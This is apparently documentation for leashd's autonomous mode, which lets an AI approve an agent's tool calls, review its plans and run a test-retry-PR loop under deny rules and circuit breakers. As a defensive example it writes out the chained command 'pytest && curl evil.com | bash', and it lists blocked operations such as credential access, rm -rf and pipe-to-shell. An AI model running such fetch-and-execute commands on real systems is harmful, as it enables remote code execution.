






# Autonomous Mode

Autonomous mode enables leashd sessions to run with minimal human intervention by replacing manual approval taps and plan reviews with AI evaluation, adding a post-task test-and-retry loop, and driving multi-phase autonomous tasks through the task orchestrator.

## Three Guarantees

1. **Human-in-the-loop when it matters** — Hard blocks (credentials, force push, `rm -rf`, `sudo`) can never be overridden by any approver. The AI approver only handles `require_approval` decisions, never `deny` decisions.
2. **Fail-safe defaults** — The AutoApprover fails closed (denies on error), the AutonomousLoop escalates to the human when retries are exhausted, and circuit breakers cap both approval calls and plan revisions per session.
3. **Full auditability** — Every AI approval decision is logged with `approver_type` in the same append-only JSONL audit trail. No decision is invisible.

## When to Use

Autonomous mode is designed for scenarios where you want to kick off a task and walk away:

- Long-running tasks dispatched from your phone via Telegram
- Overnight feature development or refactoring
- CI-like workflows: send a task, come back to a PR or an escalation message

In the default interactive mode, every `require_approval` tool call pings Telegram and waits for you to tap approve/deny. Autonomous mode replaces that with a `claude -p` CLI call that evaluates the tool call in context and decides automatically.

## Prerequisites

| Requirement | Details |
|---|---|
| Claude Code CLI | `claude` must be installed and authenticated (`claude /login`) |
| Telegram connector | Needed for escalation messages and PR notifications |
| Claude Code agent SDK | Existing requirement, no change |

No separate `ANTHROPIC_API_KEY` or `anthropic` Python SDK is needed — the AutoApprover and AutoPlanReviewer use the existing Claude Code CLI auth.

## Quick Start

```bash
# First-time setup (dirs, Telegram, optional autonomous config)
leashd init

# Enable autonomous mode with sensible defaults
leashd autonomous enable

# Start the daemon
leashd start
```

Send `/task <description>` from Telegram, walk away. The task orchestrator drives the agent through spec → explore → validate → plan → implement → test → PR and creates a pull request — or pings you if it gets stuck.

See the [Autonomous Setup Guide](autonomous-setup-guide.md) for a detailed walkthrough.

## Architecture Overview



The four plugins slot into the existing pipeline at different points:

- **AutoApprover** — replaces the Telegram approval tap inside the Gatekeeper
- **AutoPlanReviewer** — replaces the Telegram plan review inside the InteractionCoordinator
- **AutonomousLoop** — subscribes to `session.completed` events and drives the test-retry-PR cycle
- **TaskOrchestrator** — subscribes to `task.submitted` and `session.completed` events to drive multi-phase autonomous workflows

See [Safety Pipeline](safety-pipeline.md) for the full sandbox/policy/approval pipeline.

## AI Tool Approver

`AutoApprover` (`plugins/builtin/auto_approver.py`) replaces the human approval tap with a `claude -p` CLI call that evaluates each `require_approval` tool call in context and returns `APPROVE` or `DENY` with a one-line reason.

### How It Works



The Gatekeeper calls `evaluate()` when:
1. The policy returns `REQUIRE_APPROVAL`
2. Neither blanket nor per-tool auto-approve is active
3. `auto_approver` is configured

The prompt sent to Haiku includes:
- The original task description
- Tool name and input (truncated at 2000 chars)
- A summary of the last 20 audit entries for session context
- Structured `<tool_call>...</tool_call>` delimiters to mitigate prompt injection
- Control character sanitization (strips bidi marks, zero-width chars, C0/C1 controls)

### Circuit Breaker

| Config Variable | Default | Behavior when exhausted |
|---|---|---|
| `LEASHD_AUTO_APPROVER_MAX_CALLS` | `50` | Denies all further `require_approval` calls for that session |

Each session has an independent counter. Call `reset_session(session_id)` to reset.

### Failure Modes

| Failure | Result |
|---|---|
| CLI error (not installed, auth failure, timeout) | DENY (fail-closed) |
| Unparseable response (not `APPROVE:` or `DENY:`) | DENY (fail-closed) |
| Circuit breaker tripped | DENY |

### System Prompt

The system prompt that drives the AI's approval decisions:

```
You are a safety reviewer for an autonomous AI coding agent.
You will be given a tool call the agent wants to make, the original task
description, and a summary of actions taken so far in this session.

Your job: decide if this tool call is safe to approve, given the task context.

Respond with EXACTLY one line in one of these formats:
APPROVE: <one-line reason>
DENY: <one-line reason>

Guidelines:
- APPROVE file writes/edits that are consistent with the stated task
- APPROVE test runs, linting, package installs
- APPROVE git add, git commit to feature branches
- DENY git push to main/master
- DENY network requests not clearly needed for the task
- DENY anything that touches credentials, .env files, or secrets
- DENY anything that looks like scope creep far beyond the original task
- When uncertain: DENY and explain
```

## AI Plan Reviewer

`AutoPlanReviewer` (`plugins/builtin/auto_plan_reviewer.py`) replaces human plan review in Telegram with a `claude -p` CLI evaluation that returns `APPROVE` or `REVISE` with specific feedback.

### How It Works



The coordinator calls `review_plan()` instead of forwarding the plan to Telegram when `auto_plan_reviewer` is configured. Plan content is truncated at 4000 chars and sanitized of control characters before being sent to the CLI.

### Circuit Breaker

| Default | Configurable | Behavior when exhausted |
|---|---|---|
| 5 revisions per session | Not yet (hard-coded) | **Force-approves** to prevent infinite plan revision loops |

This circuit breaker is **fail-open** — the opposite of the AutoApprover's fail-closed behavior. A mediocre plan is better than an infinite loop.

### Failure Modes

| Failure | Result |
|---|---|
| CLI error (not installed, auth failure, timeout) | APPROVE (fail-open, avoids blocking) |
| Unparseable response (not `APPROVE:` or `REVISE:`) | REVISE (fail-closed, requests revision) |
| Circuit breaker tripped | APPROVE (fail-open, force-approve) |

### System Prompt

```
You are a plan reviewer for an autonomous AI coding agent.
You will be given a task description and a plan the agent produced.

Your job: decide if the plan is sound and addresses the task.

Respond with EXACTLY one line in one of these formats:
APPROVE: <one-line reason>
REVISE: <specific feedback on what to change>

Guidelines:
- APPROVE if the plan addresses the task requirements and is technically sound
- APPROVE if the plan is reasonable even if you might do it slightly differently
- REVISE if the plan misses key requirements from the task
- REVISE if the plan has a clear technical flaw or risk
- REVISE if the plan scope is far beyond or below what the task requests
- When uncertain: APPROVE and note minor concerns in the reason
```

## Test-and-Retry Loop

`AutonomousLoop` (`plugins/builtin/autonomous_loop.py`) runs the project's test suite after the agent completes a task, retries on failure with exponential backoff, and optionally creates a PR when tests pass.

### State Machine



### Phase Walkthrough

1. **Trigger** — Subscribes to `SESSION_COMPLETED` events. When the agent finishes in `auto` mode with no active loop state, submits `/test --unit --no-e2e` via the engine.

2. **Testing** — The test suite runs via the existing `/test` workflow (TestRunnerPlugin). On completion, a new `SESSION_COMPLETED` event fires with `mode=test`. The loop evaluates results using keyword heuristics:
   - **Failure indicators**: `test failed`, `tests failed`, `failure`, `failures`, `error:`, `assert`, `traceback`, `failed:`, `fail:`, `pytest: `, `exit code 1`, `exit code 2`, `build failed`
   - **Success indicators**: `all tests pass`, `tests passed`, `all passing`, `0 failed`, `build succeeded`, `no errors`
   - Success indicators override only when **no** failure indicators are present. When both appear, failure wins.

3. **Success** — If `LEASHD_AUTO_PR=true`, transitions to `creating_pr` and submits a PR-creation prompt. Otherwise, clears state and the loop ends.

4. **Retry** — Increments the retry counter, waits with exponential backoff, then re-submits the failure context (last 500 chars of output) to the engine as a new message. The agent fixes the issue and the loop returns to step 2.

5. **Escalation** — Sends a formatted message to Telegram with the last 500 chars of failure output and the message "Session is paused. Reply to this message to take over." Clears state so the human can intervene.

6. **Cancellation** — Subscribes to `MESSAGE_IN` events. Any user message for a chat with an active loop cancels the pending task immediately and clears state.

### Backoff Formula

```
delay = min(base * 2^attempt, max) * (1 +/- jitter)
```

| Parameter | Value |
|---|---|
| `base` | 2.0s |
| `max` | 30.0s |
| `jitter` | +/- 20% |

Example delays: attempt 0 = ~2s, attempt 1 = ~4s, attempt 2 = ~8s.

### PR Creation

When `LEASHD_AUTO_PR=true` and tests pass, the loop submits a structured prompt to the agent:

1. Check `git status` and `git diff`
2. Create a feature branch if not already on one
3. Stage and commit changes with a descriptive message
4. Push the branch to origin
5. Create a PR using `gh pr create` targeting `LEASHD_AUTO_PR_BASE_BRANCH` (default `main`)

## Task Orchestrator

`TaskOrchestrator` (`plugins/builtin/task_orchestrator.py`) drives autonomous tasks through a multi-phase workflow with crash recovery, SQLite persistence, and per-chat concurrency control.

### State Machine



### Phase Walkthrough

| Phase | Session Mode | What Happens |
|---|---|---|
| `spec` | `plan` | Analyzes the task and writes a specification to `.claude/plans/spec.md` |
| `explore` | `auto` | Reads the codebase to understand structure, conventions, and relevant files |
| `validate_spec` | `auto` | Validates the spec against codebase findings, adjusts if needed |
| `plan` | `plan` | Creates a detailed implementation plan at `.claude/plans/plan.md` |
| `validate_plan` | `auto` | Reviews the plan for completeness and technical soundness |
| `implement` | `auto` | Executes the plan — writes/edits files (Write/Edit auto-approved) |
| `test` | `test` | Runs the project's test suite and evaluates results |
| `retry` | `auto` | Re-implements with failure context from the previous test run |
| `pr` | `auto` | Creates a feature branch, commits, pushes, and opens a PR via `gh` |

### Phase Prompt Structure

Each phase receives a prompt that accumulates context from previous phases:

1. **Phase instructions** — what to do in this phase (e.g., "write a specification")
2. **Previous phase context** — output from completed phases (truncated to last 2000 chars per phase)
3. **Task description** — the original user task

This accumulated context ensures the agent maintains continuity across phases without starting from scratch.

### Test Failure Detection

The orchestrator uses keyword heuristics to determine if tests passed or failed:

- **Failure indicators**: `test failed`, `tests failed`, `failure`, `failures`, `error:`, `assert`, `traceback`, `failed:`, `fail:`, `pytest: `, `exit code 1`, `exit code 2`, `build failed`
- **Success indicators**: `all tests pass`, `tests passed`, `all passing`, `0 failed`, `build succeeded`, `no errors`

Success overrides only when **no** failure indicators are present. When both appear, failure wins.

### Auto-Approval in Phases

During `auto` mode phases, Write, Edit, and NotebookEdit tools are auto-approved via the gatekeeper's per-tool auto-approve mechanism. This allows the agent to modify files without approval taps during implementation.

### Commands

| Command | Effect |
|---|---|
| `/task <description>` | Submit a new task. Sets session mode to `task` and emits `TASK_SUBMITTED`. One active task per chat. |
| `/cancel` | Cancel the active task in the current chat immediately. |
| `/tasks` | List tasks for the current chat — active tasks first, then recent completed/failed. |

### Crash Recovery

On daemon restart, the orchestrator:

1. Loads all non-terminal tasks from the SQLite store
2. Cleans up stale tasks (no update for 24+ hours) — marks as failed with `outcome="timeout"`
3. Resumes active tasks from their current phase (re-executes the phase from the beginning)
4. Sends a notification to Telegram: "🔄 Daemon restarted. Resuming task from phase: *{phase}*"

Phase execution is idempotent — re-running a phase is safe because the agent operates on the same codebase state.

### Cost Tracking

The orchestrator tracks cost per phase and accumulates a total across the task lifecycle. The completion message includes the total cost. Per-phase costs are stored in `TaskRun.phase_costs` for analysis.

### Per-Chat Serialization

`KeyedAsyncQueue` (`core/queue.py`) ensures tasks for the same chat execute sequentially (FIFO), while different chats run concurrently. This prevents race conditions when multiple messages arrive for the same chat.

See the [Autonomous Setup Guide](autonomous-setup-guide.md) for a step-by-step configuration walkthrough.

## Autonomous Policy

`autonomous.yaml` (`policies/autonomous.yaml`) is a purpose-built policy for autonomous mode that minimizes interruption while maintaining hard blocks on genuinely dangerous operations.

### Three Tiers



### Comparison with Other Presets

| Aspect | Default | Strict | Permissive | Autonomous |
|---|---|---|---|---|
| File writes | Approval | Approval | Allow | Allow |
| Read tools | Allow | Allow | Allow | Allow |
| Test runners | Overlay | Overlay | Allow | Allow |
| Linters/formatters | Overlay | Overlay | Allow | Allow |
| Safe git (add, commit, stash) | Overlay | Overlay | Allow | Allow |
| Git push (feature branch) | Approval | Approval | Approval | AI Approval |
| Browser readonly | Allow | Approval | Allow | Allow |
| Browser mutations | Approval | Approval | Allow | AI Approval |
| Network bash (curl, wget) | Approval | Approval | Allow | AI Approval |
| rm -rf / sudo | Deny | Deny | Deny | Deny |
| Credential files | Deny | Deny | Deny | Deny |
| Approval timeout | 300s | 120s | 600s | 30s |
| Approver | Human | Human | Human | AI (Claude CLI) |

### Compound Command Classification

The policy engine splits bash commands on chain operators (`&&`, `||`, `;`) with quote awareness, evaluates each segment independently, and applies deny-wins precedence:

1. If **any** segment is denied, the whole command is denied
2. If **any** segment requires approval, the whole command requires approval
3. Only if **all** segments are allowed is the whole command allowed

This prevents evasion via chained commands like `pytest && curl evil.com | bash`.

See [Policies](policies.md) for the full rule matching algorithm.

## Configuration Reference

| Variable | Type | Default | Description |
|---|---|---|---|
| `LEASHD_AUTO_APPROVER` | `bool` | `false` | Enable AI-powered tool approval via `claude -p` |
| `LEASHD_AUTO_APPROVER_MODEL` | `str` | `None` | Optional model override for approval evaluation (passed as `--model` to CLI) |
| `LEASHD_AUTO_APPROVER_MAX_CALLS` | `int` | `50` | Max approval calls per session (circuit breaker) |
| `LEASHD_AUTO_PLAN` | `bool` | `false` | Enable AI-powered plan review |
| `LEASHD_AUTO_PLAN_MODEL` | `str` | `None` | Optional model override for plan review (passed as `--model` to CLI) |
| `LEASHD_AUTONOMOUS_LOOP` | `bool` | `false` | Enable post-task test-and-retry loop |
| `LEASHD_AUTONOMOUS_MAX_RETRIES` | `int` | `3` | Max test-failure retries before escalation |
| `LEASHD_AUTO_PR` | `bool` | `false` | Auto-create PR after tests pass |
| `LEASHD_AUTO_PR_BASE_BRANCH` | `str` | `main` | Target branch for auto-created PRs |
| `LEASHD_TASK_ORCHESTRATOR` | `bool` | `false` | Enable multi-phase task orchestrator |
| `LEASHD_TASK_MAX_RETRIES` | `int` | `3` | Max test-failure retries per task |
| `LEASHD_TASK_PHASE_TIMEOUT_SECONDS` | `int` | `1800` | Max seconds per phase (30 minutes) |

The AutoApprover and AutoPlanReviewer use the existing Claude Code CLI auth — no separate API key is needed.

See [Configuration](configuration.md) for the full environment variable reference.

## Events

| Event Name | Constant | Emitter | Payload Keys |
|---|---|---|---|
| `approval.requested` | `APPROVAL_REQUESTED` | (reserved, not yet emitted) | `session_id`, `tool_name`, `chat_id` |
| `approval.resolved` | `APPROVAL_RESOLVED` | `AutoApprover` | `session_id`, `tool_name`, `approved`, `reason`, `source` |
| `session.completed` | `SESSION_COMPLETED` | `Engine` | `session`, `chat_id`, `user_id`, `response_content` |
| `session.retry` | `SESSION_RETRY` | `AutonomousLoop` | `session_id`, `chat_id`, `attempt` |
| `session.escalated` | `SESSION_ESCALATED` | `AutonomousLoop` | `session_id`, `chat_id`, `attempt` |
| `plan.review.completed` | `PLAN_REVIEW_COMPLETED` | `AutoPlanReviewer` | `session_id`, `approved`, `reason`, `source` |
| `auto_pr.created` | `AUTO_PR_CREATED` | `AutonomousLoop` | `session_id`, `chat_id` |
| `task.submitted` | `TASK_SUBMITTED` | `Engine` | `user_id`, `chat_id`, `session_id`, `task`, `working_directory` |
| `task.phase_changed` | `TASK_PHASE_CHANGED` | `TaskOrchestrator` | `run_id`, `chat_id`, `phase`, `previous_phase` |
| `task.completed` | `TASK_COMPLETED` | `TaskOrchestrator` | `run_id`, `chat_id`, `total_cost` |
| `task.failed` | `TASK_FAILED` | `TaskOrchestrator` | `run_id`, `chat_id`, `error` |
| `task.escalated` | `TASK_ESCALATED` | `TaskOrchestrator` | `run_id`, `chat_id`, `retry_count` |
| `task.cancelled` | `TASK_CANCELLED` | `TaskOrchestrator` | `run_id`, `chat_id` |
| `task.resumed` | `TASK_RESUMED` | `TaskOrchestrator` | `run_id`, `chat_id`, `phase` |

See [Events](events.md) for the full event reference.

## Audit Trail

All autonomous mode decisions appear in the same append-only JSONL audit file alongside human approval entries.

### `approver_type` Field

The `approver_type` field distinguishes who made each approval decision:

| Value | Source | Description |
|---|---|---|
| `human` | `ApprovalCoordinator` | Human tapped approve/deny in Telegram |
| `ai_approver` | `AutoApprover` | Claude CLI evaluated the tool call |
| `ai_plan_reviewer` | `AutoPlanReviewer` | Claude CLI evaluated the plan |
| `auto_approve` | `ToolGatekeeper` | Blanket or per-tool auto-approve was active |

### Example Audit Entries

AI approval of a tool call:

```json
{
  "event": "approval",
  "session_id": "abc123",
  "tool_name": "Bash",
  "approved": true,
  "user_id": "chat_456",
  "approver_type": "ai_approver",
  "timestamp": "2026-03-04T10:30:00Z"
}
```

Tool attempt with session mode tracking:

```json
{
  "event": "tool_attempt",
  "session_id": "abc123",
  "tool_name": "Bash",
  "tool_input": {"command": "git push origin feat/my-feature"},
  "classification": "git-push",
  "risk_level": "medium",
  "decision": "require_approval",
  "matched_rule": "git-push",
  "session_mode": "auto",
  "timestamp": "2026-03-04T10:30:01Z"
}
```

### `session_mode` Field

The `session_mode` field is added to `tool_attempt` audit entries when running in autonomous mode. Possible values: `auto`, `plan`, `test`, `task`, `default`.

## Safety Guarantees

1. **Hard blocks are absolute.** The `deny` rules in `autonomous.yaml` (credentials, force push, `rm -rf`, `sudo`, pipe-to-shell, `chmod 777`, `DROP/TRUNCATE`) can never be overridden by the AI approver. The policy engine evaluates deny rules before the approver is ever consulted.

2. **Sandbox enforcement is unchanged.** Path tools (Read, Write, Edit, Glob, Grep, NotebookEdit) still pass through `SandboxEnforcer` before policy evaluation. The AI approver cannot bypass directory boundaries.

3. **Circuit breakers prevent runaway.** AutoApprover caps at 50 calls/session, AutoPlanReviewer caps at 5 revisions/session, AutonomousLoop caps at 3 retries.

4. **Fail-closed approvals.** The AutoApprover denies on API errors, unparseable responses, and circuit breaker trips. The only fail-open component is the plan reviewer (to avoid infinite loops).

5. **Prompt injection defense.** Tool inputs are wrapped in `<tool_call>...</tool_call>` delimiters and sanitized of control/bidi/zero-width characters before being sent to the CLI.

6. **Compound command classification.** Chained bash commands are split and evaluated segment-by-segment with deny-wins precedence. `pytest && curl evil.com | bash` is denied.

7. **User can always intervene.** Any user message cancels an active autonomous loop. The escalation message includes failure context and invites the human to take over.
